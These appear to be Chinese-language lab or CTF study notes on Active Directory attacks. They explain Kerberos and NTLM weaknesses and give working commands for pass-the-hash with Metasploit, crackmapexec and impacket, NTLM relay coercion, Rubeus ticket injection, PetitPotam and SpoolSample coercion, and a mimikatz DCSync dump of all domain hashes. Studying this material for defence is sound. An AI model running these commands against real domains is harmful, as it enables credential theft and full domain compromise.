

### 1. kerberos 协议

`Kerberos` : 域环境下的默认认证协议，相对于 NTLM 更安全一些，引入了可信第三方 `Key Distribution Center`

#### 1. 简要认证流程

四个核心组件

- `AS` 身份认证服务
- `TGS` 票据授予服务
- `TGT` 票据授予票据
- `Service Ticket` 服务票据

1. AS-REQ / AS-REP (获取 TGT)

    用户携带自己的 `Hash` 向 KDC 的 AS 发送请求，证明自己是某个用户,经 AS 验证 Hash 后，发送 `TGT` (由 KDC 的 krbtgt 密码哈希加密) 和 `Session Key`

2. TGS-REQ / TGS-REP (获取 Servcie Ticket)

    用户想要访问服务器 B 例如一个 SQL Server ,携带自己的 `TGT` 向 KDC 的 TGS 发送请求 （KDC 检查 它是否能被 `krbtgt` 的 Hash 解密），TGS 解密 TGT 确认合法，生成 `Service Ticket` (由服务器 B 的密码哈希加密) 

3. AP-REQ / AP-REP (访问服务)

    用户携带 `Service Ticket` 去请求服务器 B，服务器 B 使用自己的 Hash 解密 ST 确认正确后提供服务。

#### 2. 黄金票据 （AS-REP 阶段产生的问题）

原理是伪造 TGT 。拿到域控的 krbtgt 用户的 NTLM Hash ，就可以自己签发 TGT。因为 KDC 验证 TGT 时只看它是否能被 `krbtgt` 的 Hash 解密。

#### 3. 白银票据 （TGS-REP 阶段产生的问题）

原理是伪造 Service Ticket 。Service Ticket 是由提供服务的账号的 Hash 加密的，拿到某台服务器的服务账号的 Hash ，就可以伪造一张访问该服务的 Service Ticket，跳过前面的那些认证流程。拿到 Service Ticket 之后，也可以进行破解，拿该服务的明文密码。

#### 4. AS-REQ 阶段产生的一些安全问题

当域内的某个用户想要访问某个服务时，输入用户名和密码，本机向 KDC 的 AS 发送 AS-REQ 请求，包括不限于以下字段

- padata ： 包含多种类型的数据，其中的 PA-ENC-TIMESTAMP(包含被用户密码 Hash 加密后的当前时间戳)，如果拿到了 NTLM Hash ,可能造成 PTH 。
- cname : 请求的用户名，通过修改这个字段，遍历字典，通过 KDC 返回值来判断这个用户是否存在。用户名存在的时候，密码的正确与否也会导致返回包不一样，所以这个地方可以`枚举用户名`以及`密码喷洒`

#### 5. AS-REP 阶段产生的一些安全问题

如果某个域中的用户设置了不需要预认证，攻击者可以向域控的 88 端口发送AS_REQ，此时域控不会做任何验证就将 TGT 和使用该用户密钥加密的 Logon Session Key 返回。如此，攻击者可以对获取到的加密的 Longon Session Key 进行破解，破解成功就能获得用户的密码明文，完成了AS-REP Roasting攻击。


### 2 . NLTM 协议

#### 1. 简要认证流程

1. client 向 server 发送请求，携带主机名域名等明文信息，不包含密码。
2. server 接收到请求之后，生成一个 16 字节随机数，发送给 client。
3. client 接收到随机数之后，使用自身内存中的 NT Hash 对这个随机数进行加密计算，生成一份 Net-NTLM Response 发给 server （同时携带用户名域名）
4. server 在工作组环境下，会拿出来自己 SAM 文件中存储的该用户的 NT Hash 对刚才的 16 字节谁技术进行同样的加密计算，如果和 client 发来的一样，验证通过。在域环境下，server 没有域用户的 Hash ,因此它会把 client 发来的 Net-NTLM Response 封装一下发给 DC , DC 取出 NTDS.dit 的Hash 进行计算验证，然后告诉 server 是否通过。

#### 2. 产生的安全问题

1. NTLM (32 位的 MD4 值) 计算 Response 的时候不需要明文密码，只需要 NTLM Hash .如果 attack 通过 Mimikatz 等工具拿到管理员的 NTLM Hash ,就不需要去破解明文密码，使用该 Hash 计算 Response 就能通过认证。

```bash
# msf 可以利用 Administrator 的 hash 
use exploit/windows/smb/psexec
set RHOSTS 172.22.1.2
set SMBUser administrator
set SMBDomain xiaorang.lab
set SMBPass aad3b435b51404eeaad3b435b51404ee:10cf89a850fb1cdbe6bb432b859164c8
# 设置 payload 为执行单条命令并退出，或者正向 shell 
# set payload windows/x64/meterpreter/bind_tcp
set PAYLOAD generic/custom
set SMBShare Admin$
exploit
```

```
# 或者使用 impacket 工具中的 psexec.py 反弹shell，获取域控主机 shell

proxychains crackmapexec smb 172.22.1.2 -u administrator -H 10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```


2. NTLM 没有服务器身份验证的机制，导致 Relay attack。 问题来到如何作为中间人截获 NTLM 请求？

    - 使用 responder ,指定恶意服务器的 unc 路径，使目标主机自动向恶意服务器发送 NTLM 认证

        ```
        dir \\192.168.111.130\share
        net use \\192.168.111.130\share
        ```

    - desktop.ini： windows 下指定存储文件夹图标的个性化设置，将图标路径改为恶意服务器的 unc ，当主机请求图标资源时就能截获 NTLM Hash。

总之就是让目标机器向恶意服务器通过 smb  协议通信，通信前会有 NTLM 认证。



### 3. 一些配置缺陷

#### 1. 非约束性委派

- 为了解决以下问题，用户 A 访问 Web 服务器 B，B 需要以 A 的身份去访问数据库 C。它允许某台机器，或者服务账号在代表用户访问其他服务时，拥有用户完全模拟权限。

##### 正常流程

- 用户 A 向服务器 B (配置了非约束性委派) 发起 Kerberos 认证请求。
- KDC (域控) 检测到服务器 B 具有非约束性委派权限。KDC 会将用户的 TGT 放入服务票据 Service Ticket 中，一并发给服务器 B 。
- 服务器 B 会将这个 TGT 解密并存储在自己的 LSASS 内存中，用于随时模拟该用户访问一些服务。

所有连接过这个服务器 B 的用户，它的 TGT 都会留在服务器 B 的内存中，因此可以让高权限机器向服务器 B 发起连接，从而拿到高权限机器账号的 TGT ，利用导出的 TGT ，打 DCSync，然后导出整个域的 Hash。

- 首先上传一个 Rubeus

    ```
    # 监听
    Rubeus.exe monitor /interval:1 /nowrap /targetuser:DC01$
    ```

     然后使用 SpoolSample 强制域控连接被控机器

    ```
    SpoolSample.exe DC01 CompromisedWeb
    ```

    或者 PetitPotam

    ```
    # 格式：python3 PetitPotam.py <服务器B的IP> <域控IP>
    python3 PetitPotam.py 192.168.1.20 192.168.1.10
    ```

    导出 TGT ，使用 Mimikatz 或者 Rubeus  将高权限账户的 TGT 注入到当前会话，此时具备向域控请求数据同步的身份 .

    ```
    Rubeus.exe ptt /ticket:Administrator.kirbi
    Rubeus.exe ptt /ticket: xxxxxx
    mimikatz.exe "lsadump::dcsync /domain:lab.local /all /csv"
    klist # 查看是否注入成功
    ```

    使用 mimikatz 

    ```
    mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
    ```

    拿到administrator 的 hash

    ```none
    proxychains python psexec.py xiaorang/Administrator@172.22.4.7 -hashes :4889f6553239ace1f7c47fa2c619c252 -codec gbk
    ```
